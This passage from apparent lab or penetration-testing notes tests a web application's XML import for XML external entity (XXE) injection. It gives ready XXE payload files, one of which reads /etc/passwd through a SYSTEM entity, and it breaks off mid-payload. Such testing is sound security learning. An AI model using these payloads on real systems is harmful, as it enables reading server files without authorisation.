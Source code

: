 ```xml
<longDescription>&xxe;</longDescription>
</Product>
</entity-engine-xml>
```
used `XML FORMATTER` to properly format it
![[Pasted image 20241209174458.png]]
now we have something to work with
```xml
<?xml version="1.0"?>
<response>
	<id>1</id>
	<name>Robin Marjan</name>
	<proffesion>Web Development</proffesion>
	<bio>Robin is a web developer, mentor, and professor who is prominent in his field. He has been working in the industry for over 20 years and has seen it all. He is passionate about mentoring young developers and helping them learn the ropes. When he is not teaching or coding, he enjoys spending time with her family and friends.</bio>
	<imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
payload to work with:
`testing.xml` - this tests all fields
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
<response>
	<id>1</id>
	<name>&xxe;</name>
	<proffesion>&xxe;</proffesion>
	<bio>&xxe;</bio>
	<imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
created on kali to `import`
![[Pasted image 20241209174932.png]]
now we have a baseline of all showing `Vulnerable to XXE` we can go further to see if we can grab machine information
![[Pasted image 20241209175048.png]]
`testing2_etcpasswd.xml`
testing to see what field spits back out `/etc/passwd`
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<response>
	<id>1</id>
	<name>&xxe;</name>
	<proffesion>&xxe;</proffesion>
	<bio>&xxe;</bio>
	<imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
this crashed the entire website, and reverted,- lets test one field at a time 
`testing3_etcpasswd.xml`
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
```
